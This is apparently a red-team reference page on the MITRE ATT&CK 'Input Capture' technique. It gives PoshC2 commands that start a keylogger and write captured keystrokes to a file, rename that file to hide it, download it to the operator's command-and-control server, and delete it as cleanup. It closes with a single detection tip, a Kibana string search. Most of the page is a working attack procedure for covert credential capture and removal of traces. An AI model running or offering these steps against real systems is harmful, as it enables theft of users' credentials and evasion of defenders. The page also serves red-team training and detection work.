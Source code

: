 # [Input Capture](https://attack.mitre.org/techniques/T1056/)

## Exploit Description: 
Adversaries may use methods of capturing user input to obtain credentials or collect information. During normal system usage, users often provide credentials to various different locations, such as login pages/portals or system dialog boxes. Input capture mechanisms may be transparent to the user (e.g. Credential API Hooking) or rely on deceiving the user into providing input into what they believe to be a genuine service (e.g. Web Portal Capture).


## Exploit syntax:
In Poshc2, Run
```sh
start-keystrokes ##Starts the Keylogger

start-keystrokes-writefile ##record this file location(.log)

### Keylogger is now running until Stopped ###

copy "C:\keystroke file location" C:\sameplace with new filename ##Change the name for obfuscation/readability

Download-file "C:\sameplace with new filename" ## Gets put into /var/poshc2/*projectname*/downloads

Stop-Keystrokes ##Stop keylogger for cleanup

posh-delete C:\sameplace with new filename ##Cleaning up file created
```


## Detection Technique:
* (Kibana): Utilized string searches. (“Get-Keystrokes”)